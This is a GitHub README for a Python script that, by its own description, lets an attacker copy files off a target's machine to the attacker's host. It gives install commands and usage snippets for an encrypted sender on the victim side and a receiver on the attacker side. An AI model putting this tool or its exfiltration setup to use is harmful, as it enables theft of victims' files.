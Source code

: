 # File Transfer

## Disclaimer

This script is for educational purposes only, I don't endorse or promote it's illegal usage

## Table of Contents

1. [Overview](#overview)
2. [Features](#features)
3. [Languages](#languages)
4. [Installations](#installations)
5. [Usage](#usage)
6. [Run](#run)

## Overview

This script allows an attacker to transfer files from the target's machine

## Features

- It crypts the file that's been sent to prevent MITM attack

## Languages

- Python 3.9.7

## Installations

```shell
git clone https://github.com/favoursyre/transfer-files.git && cd transfer-files
```

```shell
pip install requirements.txt
```

## Usage

On attacker's system in transfer.py

```python
host = "host-ip-address"
a = Transfer().receiver(host)
```

then on target's system in transfer.py

```python
host = "host-ip-address"
file = "filename.ext"
a = Transfer().sender(host,file)
```

## Run

First run the shinigami_seal.py to create the various keys

```shell
python shinigami_seal.py
```

First run on attacker's system before target's system

```shell
python transfer.py
```
